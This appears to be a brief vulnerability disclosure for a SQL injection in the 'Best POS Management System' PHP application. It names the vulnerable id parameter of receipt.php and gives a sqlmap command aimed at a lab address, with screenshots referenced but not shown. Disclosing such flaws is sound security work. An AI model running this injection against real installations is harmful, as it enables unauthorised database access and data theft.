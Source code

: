 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image-20230223220348062](C:\markdown\images\image-20230223220348062.png)

exp

```
sqlmap.py -u "http://192.168.31.50/kruxton/receipt.php?id=1"
```

![image-20230223220326616](C:\markdown\images\image-20230223220326616.png)